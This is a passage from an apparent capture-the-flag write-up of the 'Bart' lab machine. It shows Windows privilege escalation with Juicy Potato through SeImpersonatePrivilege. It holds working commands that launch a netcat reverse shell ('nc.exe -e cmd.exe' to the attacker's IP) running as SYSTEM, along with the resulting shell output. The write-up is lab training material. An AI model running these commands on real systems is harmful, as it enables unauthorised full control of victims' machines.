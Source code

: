 Looking at the output for PowerUp.ps1 script, we realize that the SeImpersonatePrivilege is enabled. This might mean that the machine is vulnerable to the Juicy Potato exploit. 

Running ```systeminfo``` to check the current version of Windows that we are running on, we can see that we are using Windows 10 Pro which is a version of Windows that is vulnerable to the Juicy Potato exploit.

```
Host Name:                 BART
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.15063 N/A Build 15063
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
```

Now all we have to do is to tranfer the Juicy Potato executable and nc.exe to our Windows server. Using ```{5B3E6773-3A99-4A3D-8096-7765DD11785C}``` as the CLSID, we can then execute a reverse shell connection with SYSTEM privileges

```
PS C:\temp> ./JuicyPotato.exe -l 1337 -p "c:\windows\system32\cmd.exe" -a "/c C:\temp\nc.exe -e cmd.exe 10.10.16.6 2000" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
COM -> recv failed with error: 10038
PS C:\temp> ./JuicyPotato.exe -l 1337 -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}" -p "c:\windows\system32\cmd.exe" -a "/c C:\temp\nc.exe -e cmd.exe 10.10.16.6 2000" -t *
Testing {5B3E6773-3A99-4A3D-8096-7765DD11785C} 1337
......
[+] authresult 0
{5B3E6773-3A99-4A3D-8096-7765DD11785C};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
--------------------------------------------------------------------------------------------------------------------------------
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 2000           
listening on [any] 2000 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.81] 49747
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority\system
C:\Windows\system32>
```

### Obtaining user flag

```
C:\Users\h.potter\Desktop>type user.txt
type user.txt
<Redacted user text>
```
